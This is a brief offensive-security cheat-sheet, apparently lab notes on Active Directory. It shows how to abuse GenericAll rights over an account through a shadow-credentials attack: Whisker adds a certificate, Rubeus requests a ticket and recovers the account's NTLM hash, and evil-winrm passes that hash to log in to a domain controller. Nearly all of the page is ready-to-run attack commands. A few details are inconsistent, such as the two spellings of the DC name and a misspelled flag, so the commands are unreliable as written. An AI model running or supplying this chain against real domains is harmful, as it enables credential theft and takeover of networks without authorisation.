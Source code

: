 # If with Rubeus we find Generic all to an important acount

```bash
# https://github.com/eladshamir/Whisker (we need to compile the binary)
execute-assembly -i -M -E /home/typ0/Tools/transfers/windows/AD/Whisker.exe add /target:typ0 /domain:essos.local /dc:meeren.essos.local /path:C:\\windows\\tasks\\file.pfx /pasword:P@ssword1

# Then use the certificate
rubeus asktgt /user:typ0 /certificate:C:\\windows\\tasks\\file.pfx /password:"P@ssword1" /domain:essos.local /dc:meereen.essos.local /getcredentials /show
```

# With that we get the NTLM hash and we can login to the domain controller

```bash
# Example of pass the hash with evil-winrm
evil-winrm -i <dc-ip> -u typ0 -H <ntlm-hash>
```
